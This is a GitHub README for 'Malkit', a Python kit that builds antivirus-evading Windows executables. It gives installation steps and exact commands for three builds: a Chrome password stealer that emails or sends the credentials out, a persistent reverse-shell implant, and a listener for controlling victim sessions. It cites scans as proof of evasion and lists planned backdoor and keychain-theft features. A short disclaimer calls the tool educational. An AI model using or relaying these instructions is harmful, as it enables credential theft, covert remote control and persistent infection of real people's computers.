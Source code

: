 <h1 align='center'>Malkit - Full malware kit</h1>
<p align="center">	
    <img src="https://img.shields.io/badge/Platform-Windows-green?style=plastic" />
	<a href="https://github.com/darkarp/malkit/releases/latest?style=plastic">
	<img src="https://img.shields.io/github/v/release/darkarp/malkit?style=plastic" alt="Release" />
	</a>
    <img src="https://img.shields.io/badge/build-passing-green?style=plastic" alt="Build Status on CircleCI" />
    <img src="https://img.shields.io/maintenance/yes/2021" />
	</br>
  
  <a href="https://github.com/darkarp/malkit/commits/master">
    <img src="https://img.shields.io/github/last-commit/darkarp/malkit?style=plastic" />
  </a>
  <img alt="Scrutinizer code quality (GitHub/Bitbucket)" src="https://img.shields.io/scrutinizer/quality/g/darkarp/malkit?style=flat">


  <a href="https://github.com/darkarp/malkit/blob/master/LICENSE">
    <img src="https://img.shields.io/github/license/darkarp/malkit?style=plastic" />
  </a>


  </br>

  <a href="https://github.com/darkarp/malkit/issues?q=is%3Aopen+is%3Aissue">
	<img alt="GitHub issues" src="https://img.shields.io/github/issues/darkarp/malkit?style=plastic">
</a>

<a href="https://github.com/darkarp/malkit/issues?q=is%3Aissue+is%3Aclosed">
	<img alt="GitHub closed issues" src="https://img.shields.io/github/issues-closed/darkarp/malkit">
</a>
</br>
  <a href="https://discord.gg/beczNYP">
    <img src="https://img.shields.io/badge/discord-join-7289DA.svg?logo=discord&longCache=true&style=flat" />
  </a>
  </br>
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=bug_report.md&title=">Report Bug</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=feature_request.md&title=">Request Feature</a>
  </p>  
  
  
<!-- TABLE OF CONTENTS -->
## Table of Contents

* [About the Project](#about-the-project)  
	* [AV Detection](#av-detection)
* [Getting started](#getting-started)
  * [Prerequisites](#dependencies-and-requirements)
  * [Installation](#installation)
* [Usage](#usage)
* [Todo](#todo)
* [Errors, Bugs and Feature Requests](#errors-bugs-and-feature-requests)
* [Learn More](#learn-more)
* [License](#license)

## About The project
Malkit is a python-based console application that generates runtime-decrypted undetectable windows executables.
It has the following features:
  - Copying itself into startup as a legitimate application
  - Connecting back to an attacker via reverse shell
  - Custom listener with upload, download and modular capability (in progress)
  - Chromepass feature:
    - Decrypt Chrome saved paswords
    - Send a file with the login/password combinations remotely (email or reverse shell)
    - Custom icon
    - Custom error message
  - Accurate location reporting. It can detect and send back a victim's accurate geolocation (not ip-based) (X)
  - Easy to use
  - Completely undetectable by AV engines

Features marked with an X are still in development and aren't fully working but are already complete in internal testing.
### AV Detection!
Due to the way this has been coded, it is currently fully undetected. Here are some links to scans performed
  - [From build_malware](https://www.virustotal.com/gui/file/61fc9c4ad472a240f4fd010958a0b0210f6513ed878bd47b90e25da871e52068/detection) 
  - [From build_chromepass](https://antiscan.me/scan/new/result?id=kmpsMNccfuRJ)
  - Both scans yielded the result: 1/69 detections. The sole detection is a false positive by Sangfor Engine Zero. I tried submitting a simple hello world program for analysis and the same AV detected it as malware as well.
  - This is an educational project first and foremost, so distribution (or the lack thereof) is not a concern, hence the usage of VirusTotal

## Getting started

### Dependencies and Requirements

This is a very simple application, which uses only:

* [Python] - Only tested on 3.7.5 on Anaconda environment but should work in 3.6+ (Doesn't work in 3.8 yet)

### Installation

Chromepass requires [Python] 3.6+ to run.
It has been tested on a full anaconda installation but it doesn't necessariliy require it.  
The instructions on the full setup are below.

**Setup Anaconda environment:**
  - Visit [Anaconda](https://www.anaconda.com/distribution/#download-section) and download the graphical installer for windows.
  - Run the installer and make sure you select the checkbox "Add conda to path", even though it isn't recommended.
  - Open up powershell and enable conda to use it:
    - `conda init powershell`
  - Close and open a new powershell and update conda:
     - `conda update conda`
  - Create a new anaconda environment:
    - `conda create -n malkit python=3.7`
  - Activate your environment:
    - `conda activate malkit`
    - Note: Every time you open a new powershell and want to run malkit you need to activate your environment.  


**Clone the Repository and access its directory:**
```powershell
> git clone https://github.com/darkarp/malkit.git
> cd malkit
```  

**Install the dependencies:**

```powershell
> pip install -r requirements.txt
```

If any errors occur make sure you're running on the proper environment (if applcable) and that you have python 3.6+ < 3.8 (preferably 3.7.5).
If the errors persist, try:
```powershell
> python -m pip install --upgrade pip
> python -m pip install -r requirements.txt
```  
  


## Usage

* Show the help screen
    - `python malkit.py -h`

```
usage: python malkit.py [-h] {build_listener, build_malware, build_chromepass} ...

positional arguments:
  {build_listener, build_malware, build_chromepass}

optional arguments:
  -h, --help            show this help message and exit

```  
* Access the help menu for individual arguments
    - `python malkit.py build_chromepass -h`

```
usage: python malkit.py build_chromepass [-h] [--load] [--email] [--reverse_shell]
                                  [--no_error]
                                  [--errormsg Error message to appear]
                                  [--address Email address to send details to, if Email was chosen]
                                  [--port Port for reverse connection, if Reverse shell was chosen.]
                                  [--host Host reverse connection, if Reverse shell was chosen.]

optional arguments:
  -h, --help            show this help message and exit
  --load
  --email
  --reverse_shell
  --no_error
  --errormsg Error message to appear
  --address Email address to send details to, if Email was chosen
  --port Port for reverse connection, if Reverse shell was chosen.
  --host Host reverse connection, if Reverse shell was chosen.

example:

 python malkit.py build_chromepass --email --address myemail@gmail.com
 python malkit.py build_chromepass --reverse_shell --host 127.0.0.1 -p 4444
 python malkit.py build_chromepass --load myfile.conf
 ```  
 

 * Building an executable that grabs and sends chrome-saved passwords through email
    - `python malkit.py build_chromepass --email --address youremailaddress@yourdomain.com`  

 * Creating a persistent reverse_shell with additional features
    - `python malkit.py build_malware --host 127.0.0.1 -p 444`
    - Replace the host with your external/internal ip as needed
    - Replace the port as needed
    - Make sure you build the listener as well and run it.  
 
 * Creating a listener for the malware
    - `python malkit.py build_listener -p 444`
    - This is the listener for the malware
    - While in the shell, you can use the `list` command to see active sessions.
    - You can interact with a session by using the command: `interact::SESSION_NUMBER` where `SESSION_NUMBER` is the number of the session you want to connect with. 
    - To go back into listener mode after interacting with a session, use the command `<bg` or `<background`
    - Other commands while interacting have been added but still experimental:
      - `<download` - Downloads a file from the server


## Todo
 - Reducing `malware` file size to around 4-6 MB, possible by making the original `malware` download the rest of the payload via the reverse connection.
 - Sending Real-time precise location of the victim (***completed, releases next update***)
 - Also steal Firefox passwords (***Completed, releases next update***)
 - Option of installing a backdoor allowing remote control of the victim's computer (***completed, releases next update***)
 - Also steal passwords from other programs, such as keychains(***in progress***)
 - Better encryption (***Completed, releases into beta version***)
   
## Errors, Bugs and feature requests

If you find an error or a bug, please report it as an issue.
If you wish to suggest a feature or an improvement please report it in the issue pages.

Please follow the templates shown when creating the issue.

## Learn More

For access to a community full of aspiring computer security experts, ranging from the complete beginner to the seasoned veteran,
join our Discord Server: [WhiteHat Hacking](https://discord.gg/beczNYP)

If you wish to contact me, you can do so via: marionascimento@itsec.bz

## Disclaimer
I am not responsible for what you do with the information and code provided. This is intended for professional or educational purposes only.

## License
<a href="https://github.com/darkarp/malkit/blob/master/LICENSE"> MIT </a>
   
[Python]: <https://www.anaconda.com/distribution/#download-section>


